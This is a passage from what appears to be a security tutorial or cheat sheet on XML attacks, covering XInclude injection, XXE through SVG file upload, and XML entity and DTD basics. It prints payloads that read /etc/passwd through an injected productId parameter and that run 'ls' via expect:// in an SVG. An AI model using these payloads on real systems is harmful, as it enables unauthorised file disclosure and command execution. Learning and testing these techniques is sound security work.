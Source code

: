 It becomes

```xhtml
<?xml version="1.0"?>
<html xmlns="http://www.w3.org/1999/xhtml"
      xmlns:xi="http://www.w3.org/2001/XInclude">
   <head>...</head>
   <body>
      ...
      <p>This document is published under GNU Free Documentation License</p>
   </body>
</html>
```

So to perform an **XInclude attack**, we need to inject the XInclude reference and provide the path to the file we want to include

```xhtml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

###### XXE through SVG (File Upload)

SVG files use **XML**, which is a good match for XXE.
By the way, the MIME type for SVG is *data:image/svg+xml*

This is usually done through **XLink** which is an XML markup language and W3C specification that provides methods for creating internal and external links within XML documents, and associating metadata with those links,

```xhtml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

###### *If you don't know, now you know: [XML](https://en.wikipedia.org/wiki/XML)*

XML is used instead of HTML in some cases when data need to be sent from one application to another application as the main goal is to be used as *middleware*

XML entities are a way of representing an item of data within an XML document, instead of using the data itself.
Entities can be seen as function that can:

- Display text
- Display a local file
- Display a remote file

With XML, we have the **Document Type Definition** which defines the structure of an XML document.

The Document Type Definition can be either:

- Self-contained within the XML document (Internal DTD)
- Loaded from elsewhere (External DTD).

